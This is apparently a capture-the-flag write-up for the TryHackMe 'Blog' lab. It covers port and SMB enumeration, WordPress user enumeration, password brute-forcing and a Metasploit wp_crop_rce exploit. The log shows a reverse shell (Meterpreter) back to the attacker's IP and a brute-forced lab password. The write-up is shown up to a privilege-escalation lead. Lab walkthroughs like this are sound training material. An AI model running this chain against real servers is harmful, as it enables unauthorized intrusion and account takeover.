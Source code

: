 # Tryhackme Blog
## _Billy Joel made a Wordpress blog!_

As usual we start by enumerating the machine using a port scanner, one of my personal favorites is the Mayor's multi threader port scanner [Threader3000](https://github.com/dievus/threader3000).

Anyways to the port scanning:
```
------------------------------------------------------------
        Threader 3000 - Multi-threaded Port Scanner          
                       Version 1.0.7                    
                   A project by The Mayor               
------------------------------------------------------------
Enter your target IP address or URL here: 10.10.29.101                      
------------------------------------------------------------
Scanning target 10.10.29.101
Time started: 2022-06-14 13:15:27.606196
------------------------------------------------------------
Port 22 is open
Port 139 is open
Port 80 is open
Port 445 is open
Port scan completed in 0:00:28.859030
------------------------------------------------------------
Threader3000 recommends the following Nmap scan:
************************************************************
nmap -p22,139,80,445 -sV -sC -T4 -Pn -oA 10.10.29.101 10.10.29.101
************************************************************
Would you like to run Nmap or quit to terminal?
------------------------------------------------------------
1 = Run suggested Nmap scan
2 = Run another Threader3000 scan
3 = Exit to terminal
------------------------------------------------------------
Option Selection: 1
nmap -p22,139,80,445 -sV -sC -T4 -Pn -oA 10.10.29.101 10.10.29.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-14 13:18 EDT
Nmap scan report for 10.10.29.101
Host is up (0.074s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2022-06-14T17:18:50+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-14T17:18:50
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.73 seconds
------------------------------------------------------------
Combined scan completed in 0:03:26.200751
Press enter to quit...
```
from the output above we can see an interesting service running on the host, Samba!

Let's further enumerate this service using [enum4linux](https://github.com/CiscoCXSecurity/enum4linux):
```
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
.
.
.
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''            
                                                                                       
S-1-22-1-1000 Unix User\bjoel (Local User)                                             
S-1-22-1-1001 Unix User\smb (Local User)

```
enum4linux found us some potentially useful information, the username: **bjoel** and the share: **BillySMB**.

we further explore this Samba service:
```
smbclient \\\\10.10.29.101/BillySMB
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

                15413192 blocks of size 1024. 9790376 blocks available
smb: \> prompt
smb: \> mget *
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (88.6 KiloBytes/sec) (average 88.6 KiloBytes/sec)
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (1841.1 KiloBytes/sec) (average 1211.3 KiloBytes/sec)
getting file \check-this.png of size 3082 as check-this.png (10.2 KiloBytes/sec) (average 942.6 KiloBytes/sec)
```
the first thing that comes to my mind when I see a jpg image is using [steghide](https://www.kali.org/tools/steghide/)! (also **spoiler alert**: this image was used in another box called Wonderland)
```
steghide extract -sf Alice-White-Rabbit.jpg                                  
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".

cat rabbit_hole.txt  
You've found yourself in a rabbit hole, friend.
```
The other files are a QR code and a png image that leads to the same conclusion: This Samba service is a rabbit hole :(

We shift our efforts to the web server hosted on this machine on port 80, it's a simple Wordpress website.
Also from our port scan above we can see there's a **robots.txt** file which mentions a Disallowed entry: /_wp-admin_

We navigate to /_wp-admin_ and try the user's we found using enum4linux **bjoel**
![image](https://user-images.githubusercontent.com/87611022/173656287-159cd0bd-c200-463a-98f7-af8d4ffe805b.png)
we can see that's it's a valid username, also using [wpscan](https://wpscan.com/wordpress-security-scanner) we found some couple other usernames:
```
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
```
Bruteforcing the password for these usernames got us the password for **kwheel**
```
[!] Valid Combinations Found:
 | Username: kwheel, Password: 
 ```
From the wpscan we did earlier we can see that this wordpress website runs on the version 5.0 which is vulnerable to path traversal [CVE 2019-8943](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiJuqnuyq34AhUQi_0HHQUYDuIQFnoECAYQAQ&url=https%3A%2F%2Fcve.mitre.org%2Fcgi-bin%2Fcvename.cgi%3Fname%3DCVE-2019-8943&usg=AOvVaw31RQDmn7zjnh45-ckAj5Yl).

I used metasploit to exploit this vulnerability:
```
   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload                                                                    
```
We set the required options and send the exploit and boom! we got a shell:
```
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.8.252.202:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39860 bytes) to 10.10.29.101
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.8.252.202:4444 -> 10.10.29.101:54758) at 2022-06-14 14:38:39 -0400

meterpreter > 
```
the next step is to enumerate for possible privillege escalation exploits in the machine.
I used [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
we found an unknown binary with the SUID bit set:
```
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary)
```
